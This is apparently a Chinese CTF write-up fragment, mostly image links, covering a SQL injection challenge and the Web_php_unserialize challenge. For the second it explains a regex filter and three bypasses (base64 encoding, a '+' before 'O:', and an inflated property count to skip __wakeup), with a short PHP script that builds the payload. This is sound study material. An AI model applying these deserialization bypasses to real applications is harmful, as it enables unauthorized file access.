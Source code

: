 ![image-20240318122850358](D:\文档\ctf\assets\image-20240318122850358.png)

![image-20240318123001425](D:\文档\ctf\assets\image-20240318123001425.png)

![image-20240318123116373](D:\文档\ctf\assets\image-20240318123116373.png)

##### 总结：sql注入



#### Web_php_unserialize

![image-20240318123714216](D:\文档\ctf\assets\image-20240318123714216.png)

![image-20240318125221177](D:\文档\ctf\assets\image-20240318125221177.png)

##### 补充：正则表达式规则

以下是一些常用的正则表达式元字符和规则：

1. **普通字符**：这些字符直接匹配其自身。例如，字母 `a` 将匹配字符串中的字母 `a`。
2. **元字符**：具有特殊含义的字符，例如 `^`、`$`、`.`、`*`、`+`、`?` 等。这些元字符用于构建更复杂的匹配模式。
3. **字符类**：用方括号 `[]` 表示，匹配其中任意一个字符。例如，`[abc]` 匹配字符 `a`、`b` 或 `c` 中的任意一个。
4. **字符范围**：在字符类中使用连字符 `-` 可以表示字符范围。例如，`[a-z]` 匹配任意小写字母，`[0-9]` 匹配任意数字。
5. **量词**：用于指定匹配重复次数的数量。常见的量词包括 `*`（零次或多次）、`+`（一次或多次）、`?`（零次或一次）、`{n}`（恰好 n 次）、`{n,}`（至少 n 次）、`{n,m}`（至少 n 次，至多 m 次）。
6. **定位符**：用于匹配字符串的边界，包括 `^`（匹配字符串的起始位置）、`$`（匹配字符串的结尾位置）、`\b`（匹配单词边界）等。
7. **转义字符**：用反斜杠 `\` 来转义特殊字符，使其具有普通字符的含义。例如，`\.` 匹配实际的点号字符，而不是元字符 `.`。
8. **分组和捕获**：使用圆括号 `()` 可以将一部分正则表达式组合成子表达式，并将其作为一个整体进行匹配。这还允许在匹配期间捕获子表达式的内容，以便稍后引用。
9. **反向引用**：在正则表达式中，可以使用 `\n`（其中 n 是一个数字）来引用捕获的子表达式的内容。
10. **修饰符**：在正则表达式的结束符号后，可以添加修饰符以改变匹配行为。常见的修饰符包括 `i`（不区分大小写）、`g`（全局匹配）、`m`（多行匹配）等。

那么这道题，这个正则表达式模式 `/[oc]:\d+:/i` 匹配的规则如下：

1. `[oc]:`：匹配一个字符，可以是 `o` 或 `c` 中的任意一个字符。方括号 `[...]` 表示字符集，里面的字符可以任意选择其中一个。`:` 表示匹配实际的冒号字符。
2. `\d+`：匹配一个或多个数字字符。`\d` 是一个特殊的元字符，表示匹配任意数字字符，`+` 表示匹配前面的内容至少一次。因此，`\d+` 表示匹配一个或多个连续的数字。
3. `:`：匹配实际的冒号字符。

综合起来，这个正则表达式模式匹配的字符串形式为 `[o|c]:数字+:`，其中 `o` 或 `c` 是字符集 `[oc]` 中的一个字符，后面跟着一个或多个数字，最后再跟着一个冒号 `:`。

这种模式通常用于匹配序列化字符串中的自定义对象引用标识符，因为这种标识符通常以 `o` 或 `c` 开头，后面跟着一些数字，然后再跟着一个冒号。如：o:5:

##### 函数绕过

1. 将传的参数进行base64编码，绕过base64_decode函数
2. 在反序列化串的O:前加个加号“+”，绕过preg_match函数
3. 修改反序列化串的对象属性个数（一般大于原个数），绕过wakeup函数

脚本代码：

```php
<?php 
class Demo { 
    private $file = 'fl4g.php';
}

$a=new Demo();
$b=serialize($a);
echo $b;
$b=str_replace('O:4','O:+4',$b);
$b=str_replace(':1:',':2:',$b);
$b=base64_encode($b);
echo $b;
?>
```
